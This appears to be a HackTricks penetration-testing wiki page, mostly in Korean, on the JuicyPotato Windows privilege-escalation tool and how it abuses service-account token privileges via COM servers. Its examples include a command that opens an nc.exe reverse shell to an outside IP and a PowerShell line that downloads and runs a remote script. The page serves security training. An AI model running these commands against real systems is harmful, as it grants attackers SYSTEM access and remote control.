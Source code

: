 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)는 **다크 웹** 기반의 검색 엔진으로, 기업이나 고객이 **탈취 악성코드**에 의해 **침해**되었는지 확인할 수 있는 **무료** 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보 탈취 악성코드로 인한 계정 탈취 및 랜섬웨어 공격을 방지하는 것입니다.

그들의 웹사이트를 확인하고 **무료**로 엔진을 사용해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

***

{% hint style="warning" %}
**JuicyPotato는** Windows Server 2019 및 Windows 10 빌드 1809 이상에서 **작동하지 않습니다**. 그러나, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)를 사용하여 **동일한 권한을 활용하고 `NT AUTHORITY\SYSTEM`** 수준의 접근을 얻을 수 있습니다. _**확인:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (황금 권한 남용) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_조금의 주스를 더한_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, 즉 **Windows 서비스 계정에서 NT AUTHORITY\SYSTEM으로의 또 다른 로컬 권한 상승 도구**_

#### juicypotato는 [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)에서 다운로드할 수 있습니다.

### 요약 <a href="#summary" id="summary"></a>

[**juicy-potato Readme에서**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) 및 그 [변형들](https://github.com/decoder-it/lonelypotato)은 [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [서비스](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126)를 기반으로 권한 상승 체인을 활용하며, `127.0.0.1:6666`에서 MiTM 리스너를 가지고 있고, `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한이 있을 때 작동합니다. Windows 빌드 검토 중에 `BITS`가 의도적으로 비활성화되고 포트 `6666`이 사용 중인 설정을 발견했습니다.

우리는 [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)를 무기화하기로 결정했습니다: **Juicy Potato에 인사하세요**.

> 이론에 대해서는 [Rotten Potato - 서비스 계정에서 SYSTEM으로의 권한 상승](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)을 참조하고 링크와 참고 문헌을 따라가세요.

우리는 `BITS` 외에도 남용할 수 있는 여러 COM 서버가 있다는 것을 발견했습니다. 이들은 다음을 충족해야 합니다:

1. 현재 사용자에 의해 인스턴스화 가능해야 하며, 일반적으로는 임시 권한이 있는 “서비스 사용자”입니다.
2. `IMarshal` 인터페이스를 구현해야 합니다.
3. 상승된 사용자(SYSTEM, 관리자 등)로 실행되어야 합니다.

몇 가지 테스트 후, 여러 Windows 버전에서 [흥미로운 CLSID 목록](http://ohpe.it/juicy-potato/CLSID/)을 얻고 테스트했습니다.

### Juicy details <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato는 다음을 허용합니다:

* **대상 CLSID** _원하는 CLSID를 선택하세요._ [_여기_](http://ohpe.it/juicy-potato/CLSID/) _에서 OS별로 정리된 목록을 찾을 수 있습니다._
* **COM 리스닝 포트** _선호하는 COM 리스닝 포트를 정의하세요 (하드코딩된 6666 대신)_
* **COM 리스닝 IP 주소** _서버를 원하는 IP에 바인딩하세요_
* **프로세스 생성 모드** _임시 사용자 권한에 따라 선택할 수 있습니다:_
* `CreateProcessWithToken` (필요: `SeImpersonate`)
* `CreateProcessAsUser` (필요: `SeAssignPrimaryToken`)
* `둘 다`
* **실행할 프로세스** _악용이 성공하면 실행할 실행 파일이나 스크립트_
* **프로세스 인수** _실행된 프로세스 인수를 사용자 정의_
* **RPC 서버 주소** _은밀한 접근을 위해 외부 RPC 서버에 인증할 수 있습니다_
* **RPC 서버 포트** _외부 서버에 인증하고 방화벽이 포트 `135`를 차단하는 경우 유용합니다…_
* **테스트 모드** _주로 테스트 목적, 즉 CLSID 테스트를 위한 것입니다. DCOM을 생성하고 토큰의 사용자를 출력합니다. _[_테스트를 위한 여기_](http://ohpe.it/juicy-potato/Test/)를 참조하세요._

### 사용법 <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**From juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

사용자가 `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한을 가지고 있다면, 당신은 **SYSTEM**입니다.

이 모든 COM 서버의 남용을 방지하는 것은 거의 불가능합니다. `DCOMCNFG`를 통해 이러한 객체의 권한을 수정하는 것을 고려할 수 있지만, 행운을 빕니다. 이는 도전적일 것입니다.

실제 해결책은 `* SERVICE` 계정으로 실행되는 민감한 계정과 애플리케이션을 보호하는 것입니다. `DCOM`을 중지하면 이 익스플로잇을 확실히 억제할 수 있지만, 기본 OS에 심각한 영향을 미칠 수 있습니다.

From: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Visit [this page](https://ohpe.it/juicy-potato/CLSID/) for a list of CLSIDs to try.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 새로운 CMD 실행 (RDP 접근 권한이 있는 경우)

![](<../../.gitbook/assets/image (300).png>)

## CLSID 문제

대부분의 경우, JuicyPotato가 사용하는 기본 CLSID는 **작동하지 않**으며 익스플로잇이 실패합니다. 일반적으로 **작동하는 CLSID**를 찾기 위해 여러 번 시도해야 합니다. 특정 운영 체제에 대해 시도할 CLSID 목록을 얻으려면 이 페이지를 방문해야 합니다:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSID 확인하기**

먼저, juicypotato.exe 외에 몇 가지 실행 파일이 필요합니다.

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1)를 다운로드하고 PS 세션에 로드한 후, [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)을 다운로드하여 실행합니다. 해당 스크립트는 테스트할 수 있는 가능한 CLSID 목록을 생성합니다.

그런 다음 [test\_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(CLSID 목록과 juicypotato 실행 파일의 경로를 변경) 을 다운로드하고 실행합니다. 그러면 모든 CLSID를 시도하기 시작하며, **포트 번호가 변경되면 CLSID가 작동했음을 의미합니다**.

**-c 매개변수를 사용하여** 작동하는 CLSID를 **확인하세요.**

## 참고자료

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)는 **다크웹** 기반의 검색 엔진으로, 기업이나 고객이 **스틸러 악성코드**에 의해 **침해되었는지** 확인할 수 있는 **무료** 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보 탈취 악성코드로 인한 계정 탈취 및 랜섬웨어 공격에 맞서 싸우는 것입니다.

그들의 웹사이트를 확인하고 **무료로** 엔진을 사용해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **Twitter**에서 **팔로우**하세요 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
